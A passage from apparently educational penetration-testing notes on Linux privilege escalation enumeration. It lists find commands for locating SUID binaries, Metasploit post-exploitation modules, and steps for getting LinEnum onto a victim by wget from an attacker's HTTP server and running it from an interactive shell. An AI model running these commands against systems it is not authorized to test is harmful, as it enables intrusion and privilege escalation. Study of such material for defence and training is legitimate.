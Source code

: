 The reason we see three different “find” commands that could potentially lead to the same result can be seen in the manual document. As you can see below, the perm parameter affects the way “find” works.

* `find / -perm -o x -type d 2>/dev/null` : Find world-executable folders

**Find development tools and supported languages:**

* `find / -name perl*`
* `find / -name python*`
* `find / -name gcc*`

**Find specific file permissions:**

Below is a short example used to find files that have the SUID bit set. The SUID bit allows the file to run with the privilege level of the account that owns it, rather than the account which runs it.

This allows for an interesting privilege escalation path,we will see in more details on task 6.

The example below is given to complete the subject on the “find” command.

* `find / -perm -u=s -type f 2>/dev/null`: Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.

### Automating Local Enumeration <a href="#automating-local-enumeration-1" id="automating-local-enumeration-1"></a>

The Local Enumeration process can be automated with the help of scripts and Metasploit Framework modules. It is very useful to be time efficient.**Tools**:

* ​[LinEnum - rebootuser](https://github.com/rebootuser/LinEnum)​
* ​[linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

```bash
# Metasploit
use post/linux/gather/enum_configs
use post/linux/gather/enum_network
use post/linux/gather/enum_system
use post/linux/gather/checkvm

# LINENUM - Automatic Enumeration
cd /tmp
upload LinEnum.sh #or copy and paste github code into an .sh file
shell
/bin/bash -i
chmod +x LinEnum.sh
./LinEnum.sh
#can be useful transferring LinEnum.sh to target system (using python -m SimpleHTTPServer on attacker machine and downloading it on victim machine with wget http://target_IP:8000/LinEnum.sh) 

./LinEnum.sh -s -k <keyword> -r <report> -e /tmp/ -t
```

## Transferring Files <a href="#transferring-files" id="transferring-files"></a>
